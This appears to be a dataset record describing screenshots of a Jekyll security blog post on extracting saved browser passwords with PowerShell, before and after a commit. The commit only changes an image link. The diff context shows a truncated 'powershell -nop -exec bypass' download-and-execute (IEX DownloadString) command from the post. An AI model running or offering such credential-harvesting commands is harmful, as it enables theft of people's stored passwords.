

Before and after one commit to zer0trustsec/zer0trustsec.github.io, a Jekyll site: the page built from _posts/extract-saved-browser-passwords-using-powershell/2020-09-15-extract-saved-browser-passwords-using-powershell.md, in a window 1280 px wide. Shown: the whole page at 94% size, without its empty margins (163-1116 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1251 px from its top, so only the background shows below that.

Commit message:
Modified version

```diff
--- a/_posts/extract-saved-browser-passwords-using-powershell/2016-11-22-extract-saved-browser-passwords-using-powershell.md
+++ b/_posts/extract-saved-browser-passwords-using-powershell/2020-09-15-extract-saved-browser-passwords-using-powershell.md
@@ -16,7 +16,7 @@ powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('
 ##### Execution:
 
 <figure>
-<img src="/extract-saved-browser-passwords-using-powershell/credgrap.gif" alt="Powershell code">
+<img src="https://raw.githubusercontent.com/zer0trustsec/zer0trustsec.github.io/master/_posts/extract-saved-browser-passwords-using-powershell/credgrap.gif" alt="Powershell code">
 <figcaption>Powershell command</figcaption>
 </figure>
 
```
